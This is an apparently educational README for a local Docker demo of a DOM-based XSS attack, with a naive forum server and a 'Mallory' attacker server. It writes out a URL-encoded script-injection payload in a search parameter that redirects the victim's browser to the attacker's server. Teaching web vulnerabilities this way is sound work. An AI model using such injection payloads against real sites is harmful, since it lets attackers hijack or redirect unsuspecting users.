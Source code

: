 # Reflected XSS

Here you have a minimal working example of a *DOM based XSS* attack.
It follows the same principle of the reflected-XSS, but everything happens at client side.

## See it in action

This will bring up the two servers. The naive forum (port 8080) and the malicious Mallory server (port 8081).
```
docker-compose build; docker-compose up -d
```
To see the search result
```
http://localhost:8080/search/?terms=SOMETHING
```
You can search anything and you will be redirect to the search result page.
However, check out what happens if you follow the carefully crafted Mallory link.
It seems that it is just linking you to a naive-server research page
```
http://localhost:8080/search/?terms=%3C%2Fdiv%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2Flocalhost%3A8081%2F%22%3C%2Fscript%3E%3Cdiv%3E
```
Hey, you have been redirected against your will!

